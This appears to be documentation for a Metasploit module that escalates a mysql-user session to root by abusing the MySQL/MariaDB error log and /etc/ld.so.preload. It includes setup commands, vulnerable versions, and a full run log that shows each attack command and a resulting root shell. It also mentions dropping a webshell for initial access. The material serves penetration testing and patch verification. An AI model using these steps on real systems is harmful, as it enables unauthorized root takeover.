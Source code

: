 
## Notes

This exploit was tested on Ubuntu 14 and 16. As it relies on log file location
and service restarting, success on other Linux distributions depends greatly on
how similar they are to Ubuntu/Debian's layout.

## Creating A Testing Environment

There are a few requirements for this module to work:

  1. mysql must be started by running mysql_safe
  2. the error log must be active
  3. mysql logging through syslog must not enabled
  4. mysql automatic restart must be enabled

 **Using Ubuntu 16.04**

  1. install mariadb - `apt-get -y install mariadb-server`
  2. disable syslog - `sed -i -e "s/syslog/#syslog/g" /etc/mysql/mariadb.conf.d/50-mysqld_safe.cnf`
  3. enable error log - `sed -i -e "s/skip_log_error/#skip_log_error/g" /etc/mysql/mariadb.conf.d/50-mysqld_safe.cnf`
  4. enable service - `systemctl enable mysql.service`
  5. start service - `systemctl start mysql.service`

This module has been tested against the following versions of mysql running on Ubuntu 16.04:

  * MariaDB 10.0.27

 **Ubuntu 14.04**

  * MySQL 5.5.35
  * MariaDB 5.5.52

 **Debian 8.6**

  * MySQL 5.5.53

This module was not tested against, but may work against:

  **MySQL**

  * <= 5.5.51
  * <= 5.6.32
  * <= 5.7.14

  **MariaDB**

  * <= 5.5.50

  **Percona Server**

  * < 5.5.51-38.2
  * < 5.6.32-78-1
  * < 5.7.14-8

  **Percona XtraDB Cluster**

  * < 5.6.32-25.17
  * < 5.7.14-26.17
  * < 5.5.41-37.0

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  4. Do: `use exploit/linux/local/mysql_priv_esc`
  5. Do: `set session #`
  6. Do: `set verbose true`
  7. Do: `exploit`

## Options

  **WritableDir**

  A folder we can write files to.  Defaults to /tmp

  **ErrorLog**

  The mysql service error log file. The location of this file is set on the configuration files. Defaults to /var/log/mysql/error.log

  **BackdoorShell**

  The shell that will be launched using elevated privileges.  Defaults to /bin/bash

  **COMPILE**

  If we should live compile on the system, or drop pre-created binaries.  `Auto` will determine if gcc/libs are installed to compile live on the system.  Defaults to `Auto`

## Scenario

 * Ubuntu 16.04 (with Linux 4.4.0-21-generic)
 * MariaDB 10.0.27 (MariaDB-0ubuntu0.16.04.1)

 **Initial Access**

Use whatever means to get a session back to metaploit ith the mysql account, usually dropping a webshell, connecting back to metaploit and escalate to mysql.

 **Escalate to root**

```
msf exploit(mysql_priv_esc) >
[*] Sending stage (36 bytes) to 192.168.205.64
[*] Command shell session 45 opened (192.168.205.52:443 -> 192.168.205.64:51400) at 2016-11-16 21:44:16 +0000

msf exploit(mysql_priv_esc) > set session 45
session => 45
msf exploit(mysql_priv_esc) > run

[+] mysqld_safe is running
[+] The current user is mysql
[*] Checking if gcc are installed
[*] Checking if gcc are installed
[*] Dropping pre-compiled exploit on system
[*] Writing privesclib to /tmp/fYAMgzW5.so
[*] Max line length is 65537
[*] Writing 8240 bytes in 1 chunks of 19877 bytes (octal-encoded), using printf
[*] Seting up the preload trap
[*] cp /bin/bash /tmp/mysqlrootsh
[*] touch -f /var/log/mysql/error.log; mv /var/log/mysql/error.log /var/log/mysql/error.log.tmp && ln -s /etc/ld.so.preload /var/log/mysql/error.log
[*] kill $(pgrep mysqld)
[*] /bin//sh: 27: kill: Operation not permitted

[*] Waiting for mysqld to restart...
[*] Executing escalation.
[*] echo /tmp/fYAMgzW5.so > /etc/ld.so.preload
[*] chmod 755 /etc/ld.so.preload
[*] /usr/bin/sudo 2>/dev/null >/dev/null
[*] /tmp/mysqlrootsh -p -c "rm -f /etc/ld.so.preload; rm -f /tmp/fYAMgzW5.so"
[*] /tmp/mysqlrootsh -p
[*] Cleanup done.
[!] This exploit may require manual cleanup of '/tmp/mysqlrootsh' on the target
msf exploit(mysql_priv_esc) > sessions -i 45 -c "id"
[*] Running 'id' on shell session 45 (192.168.205.64)
uid=112(mysql) gid=121(mysql) euid=0(root) groups=121(mysql)
```
